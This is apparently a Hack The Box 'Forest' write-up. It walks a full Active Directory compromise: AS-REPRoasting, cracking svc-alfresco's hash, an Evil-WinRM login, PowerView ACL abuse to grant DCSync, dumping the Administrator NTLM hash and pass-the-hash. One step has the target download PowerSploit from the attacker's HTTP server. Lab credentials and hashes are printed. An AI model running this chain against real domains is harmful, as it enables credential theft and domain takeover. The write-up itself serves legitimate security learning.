

# Target
| Category       | Details                                              |
|----------------|------------------------------------------------------|
| 📝 Name        | [Forest](https://app.hackthebox.com/machines/Forest) |
| 🏷 Type        | HTB Machine                                          |
| 🖥️ OS          | Windows                                              |
| 🎯 Difficulty  | Easy                                                 |

# Scan
```
┌──(magicrc㉿perun)-[~/attack/HTB Forest]
└─$ nmap -sT -sC $TARGET
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-11 21:50 CET
Nmap scan report for 10.129.193.120
Host is up (0.025s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman

Host script results:
|_clock-skew: mean: 2h26m50s, deviation: 4h02m31s, median: 6m48s
| smb2-time: 
|   date: 2025-03-11T20:57:03
|_  start_date: 2025-03-11T20:54:27
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-03-11T13:57:05-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

Nmap done: 1 IP address (1 host up) scanned in 24.91 seconds
```

# Foothold
No credentials were provided with this challenge, so our initial plan will be to enumerate target to lookup users and try AS-REPRoasting. But first let's add DC domain to our `/etc/hosts`.

```
┌──(magicrc㉿perun)-[~/attack/HTB Forest]
└─$ echo "$TARGET htb.local" | sudo tee -a /etc/hosts
10.129.43.111 htb.local
```

And proceed to enumeration with `enum4linux-ng`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Forest]
└─$ enum4linux-ng htb.local -oA enum
```

It was able to find users (due to anonymous access to LDAP). We will check if some of them have `DONT_REQ_PREAUTH` set to `true` and thus are AS-REPRoastable.

```
┌──(magicrc㉿perun)-[~/attack/HTB Forest]
└─$ cat enum.json | jq -r .users[].username > users.txt && \
impacket-GetNPUsers htb.local/ -usersfile users.txt -outputfile hashes.txt -format hashcat -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox0659cc1 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:32b1386a1cf17a07856f22927d032ea4$a621d53d94d83f2b8f1832e0225f4f4bd72796ad8596af0019efa3975dfb487a2804a346a91b6d8b28cae1b61ba417b135cda6114f90fa2534c508dececa82af7253e31d9e40dc80f6f6c9a54ee734051577b42e623ece57f0eef88d558a1f09c5256e4ef7d7deaba998b5eff701171c2d5918ac58427170f4a1070fdf010c70dc3cdcd0a9dbb281306741b1bbf8a80d238845b9e09e72831022ac0f3965050310b89f94f9854d13dcb593f981e139237a71d7548796d7cc7c9e0ebf026836801b388162bf864d3a6e5e375dab0b78c982e4bb9a9d46f29a88e61a57bdfe27186b9f4ea9205c
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We were able to obtain Kerberos hash for `svc-alfresco`, now let's check it we will be able to break it with `hashcat`
```
┌──(magicrc㉿perun)-[~/attack/HTB Forest]
└─$ hashcat -m 18200 --quiet hashes.txt /usr/share/wordlists/rockyou.txt
$krb5asrep$23$svc-alfresco@HTB.LOCAL:32b1386a1cf17a07856f22927d032ea4$a621d53d94d83f2b8f1832e0225f4f4bd72796ad8596af0019efa3975dfb487a2804a346a91b6d8b28cae1b61ba417b135cda6114f90fa2534c508dececa82af7253e31d9e40dc80f6f6c9a54ee734051577b42e623ece57f0eef88d558a1f09c5256e4ef7d7deaba998b5eff701171c2d5918ac58427170f4a1070fdf010c70dc3cdcd0a9dbb281306741b1bbf8a80d238845b9e09e72831022ac0f3965050310b89f94f9854d13dcb593f981e139237a71d7548796d7cc7c9e0ebf026836801b388162bf864d3a6e5e375dab0b78c982e4bb9a9d46f29a88e61a57bdfe27186b9f4ea9205c:s3rvice
```

We have our first credentials, `svc-alfresco:s3rvice`. Let's see if this will be enough to gain foothold and user flag.
```
┌──(magicrc㉿perun)-[~/attack/HTB Forest]
└─$ evil-winrm -i htb.local -u "svc-alfresco" -p "s3rvice"
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cat C:\Users\svc-alfresco\Desktop\user.txt
********************************
```

Foothold gained, time for escalation of privileges.

# Privileges escalation
As `svc-alfresco` does not have any intersting privileges that we could use immediately escalate to `Administrator`, we will analyze possible vecotrs with Bloodhound. Starting with gathering data using Python collector.
```
┌──(magicrc㉿perun)-[~/attack/HTB Forest]
└─$ ~/Tools/BloodHound.py/bloodhound.py -d htb.local -c DCOnly -u svc-alfresco -p s3rvice -ns $TARGET -k
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 2 computers
INFO: Found 0 trusts
INFO: Done in 00M 09S
```

Bloodhound shows strightforward path from `svc-alfresco` (owned) to `Administartor`.


* `svc-alfresco@htb.local` is indirect memeber of `account operators@htb.local` which has `GenericAll` over `exchange windows permissions@htb.local`. Meaning we could abuse this to add `svc-alfresco@htb.local` to this group.
* Then `exchange windows permissions@htb.local` has `WriteDacl` over `htb.local`. We could use this to add `DCSync` privileges to `svc-alfresco@htb.local` and use `impacket-secretsdump` to dump NTLM hashes.

Let's download `PowerSploit` to target.
```
┌──(magicrc㉿perun)-[~/Tools/PowerSploit]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And use it to exploit AD misconfiguration.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> wget http://10.10.14.212:8000/PowerSploit.zip -OutFile C:\Users\svc-alfresco\Documents\PowerSploit.zip
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Expand-Archive -Path "C:\Users\svc-alfresco\Documents\PowerSploit.zip" -DestinationPath "C:\Users\svc-alfresco\Documents\PowerSploit"
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd PowerSploit\Recon
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\PowerSploit\Recon> . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\PowerSploit\Recon> Add-DomainGroupMember -Identity 'EXCHANGE WINDOWS PERMISSIONS' -Members 'svc-alfresco'; $Password = ConvertTo-SecureString 's3rvice' -AsPlainText -Force; $Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $Password); Add-DomainObjectAcl -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\svc-alfresco' -Rights DCSync -Credential $Cred
```

With `DCSync` in place for `svc-alfresco` let's dump NTLM hashes.
```
┌──(magicrc㉿perun)-[~/Tools]
└─$ impacket-secretsdump -just-dc htb.local/svc-alfresco:s3rvice@htb.local
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

And use to gain access to `Administator` shell and obtain root flag
```
┌──(magicrc㉿perun)-[~/Tools]
└─$ evil-winrm -i htb.local -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat C:\Users\Administrator\Desktop\root.txt
********************************
```
